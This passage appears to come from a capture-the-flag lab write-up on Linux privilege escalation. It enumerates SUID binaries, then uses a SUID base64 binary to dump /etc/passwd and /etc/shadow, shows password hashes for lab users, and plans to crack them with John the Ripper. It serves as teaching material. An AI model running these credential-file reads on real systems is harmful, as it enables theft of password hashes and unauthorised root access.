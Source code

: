 We can find said program using `find / -type f -perm -04000 -ls 2>/dev/null`:

```
karen@ip-10-10-181-108:/tmp$ find / -type f -perm -04000 -ls 2>/dev/null
       66     40 -rwsr-xr-x   1 root     root        40152 Jan 27  2020 /snap/core/10185/bin/mount
       80     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /snap/core/10185/bin/ping
       81     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /snap/core/10185/bin/ping6
       98     40 -rwsr-xr-x   1 root     root        40128 Mar 25  2019 /snap/core/10185/bin/su
<<<---------------------------- Snipped ---------------------------->>>>
     1857     52 -rwsr-xr-x   1 root     root               53040 May 28  2020 /usr/bin/chsh
     1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
     1674     68 -rwsr-xr-x   1 root     root               67816 Jul 21  2020 /usr/bin/su
     2028     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
     2166     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
     1633     56 -rwsr-xr-x   1 root     root               55528 Jul 21  2020 /usr/bin/mount
```

I think a good to use in this scenario is `base64`, we can access sensitive/restricted files with this utility. A good target for this would be to snag the `/etc/shadow` and `/etc/passwd` files, that way we can use our friend `John The Ripper` to hopefully crack some of the hashes of one or more users and then escalated our privileges leveraging their credentials. Let's walk through this:  
_`/etc/passwd`_:

```
karen@ip-10-10-181-108:/tmp$ base64 /etc/passwd | base64 --decode
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<<<---------------------------- Snipped ---------------------------->>>>
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
gerryconway:x:1001:1001::/home/gerryconway:/bin/sh
user2:x:1002:1002::/home/user2:/bin/sh
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
karen:x:1003:1003::/home/karen:/bin/sh
```

_`/etc/shadow`_:

```
karen@ip-10-10-181-108:/tmp$ base64 /etc/shadow | base64 --decode
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
<<<---------------------------- Snipped ---------------------------->>>>
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
lxd:!:18796::::::
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796:0:99999:7:::
```
